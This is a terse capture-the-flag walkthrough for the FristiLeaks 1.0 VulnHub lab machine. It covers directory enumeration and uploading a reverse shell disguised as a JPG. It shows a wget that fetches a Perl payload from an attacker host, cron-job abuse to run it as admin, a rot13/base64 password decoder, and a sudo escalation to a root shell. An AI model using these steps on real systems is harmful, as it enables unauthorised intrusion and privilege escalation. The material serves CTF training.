 By dirb and decode:
eezeepz
keKkeKKeKKeKkEkkEk
then upload:
http://192.168.139.145/fristi/uploads/revshell.php.jpg

```shell
bash-4.1$ cd /home/eezeepz
bash-4.1$ ls -aul
bash-4.1$ cat notes.txt
bash-4.1$ wget 192.168.139.129/perl.pl
Get admin ID:
bash-4.1$ echo "/usr/bin/perl /tmp/perl.pl" > /tmp/runthis
[admin@localhost /]$ whoami
whoami
admin
```shell
Find out the txt:
=RFn0AKnlMHMPIzpyuTI0ITG
Need make a script:
decrypt.py
----------------------------------------------------
import base64, codecs,sys
def decodeString(str):
	rot13crypt=codecs.decode(str[::-1], 'rot13')
	return base64.b64decode(rot13crypt)
print decodeString(sys.argv[1])
----------------------------------------------------

Optional:
```shell
bash-4.1$ echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
bash-4.1$ cd /tmp
cd /tmp
bash-4.1$ ls
ls
cronresult  runthis
bash-4.1$ cat cronresult
bash-4.1$ cd /home/admin
```
Decrypt password:

LetThereBeFristi!

```shell
sudo -u fristi ./doCom chmod -R 777 /root
```
or
```shell
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
```
Final:
bash-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]
I wonder if you beat it in the maximum 4 hours it's supposed to take!
Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)

Flag: Y0u_kn0w_y0u_l0ve_fr1st1
